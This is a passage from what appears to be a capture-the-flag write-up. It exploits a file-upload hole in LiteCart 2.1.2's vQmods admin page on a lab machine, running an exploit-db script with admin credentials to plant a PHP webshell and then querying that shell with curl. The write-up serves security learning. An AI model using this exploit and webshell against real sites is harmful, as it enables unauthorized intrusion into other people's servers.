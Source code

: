 
At the bottom, it identifies the LiteCart version, 2.1.2, which is the
one with the upload vulnerability.

## Shell as mysql

### Exploit

The exploit is a pretty simple upload vulnerability, where a PHP file
can be uploaded using the vQmods interface in LiteCart. I'll log into
the admin interface at `/shop/admin` like above, and at the very bottom
of the menu on the left is "vQmods", which leads to this page:

![](/img/image-20210119084339587.png)

There's client-side filtering requiring a file with a `.xml` extension,
but I can catch the request in Burp (or use the exploit script to bypass
client-side filtering) and change the file name to `.php`, and the file
will upload.

### Exploit Troubleshooting

I'll use the exploit script from here out, but it would be just as easy
to do things manually. Running the exploit from `searchsploit` doesn't
completely work, returning an empty line where the output should be:



    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~' 
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id



The exploit is nice enough to give me the address of the webshell, and
visiting it returns an empty page:



    root@kali# curl -v 'http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id'
    *   Trying 10.10.10.207:80...
    * Connected to 10.10.10.207 (10.10.10.207) port 80 (#0)
    > GET /shop/vqmod/xml/S59WW.php?c=id HTTP/1.1
    > Host: 10.10.10.207
    > User-Agent: curl/7.74.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sat, 16 Jan 2021 20:00:20 GMT
    < Server: Apache/2.4.29 (Ubuntu)
    < Content-Length: 0
    < Content-Type: text.md; charset=UTF-8
    < 
    * Connection #0 to host 10.10.10.207 left intact
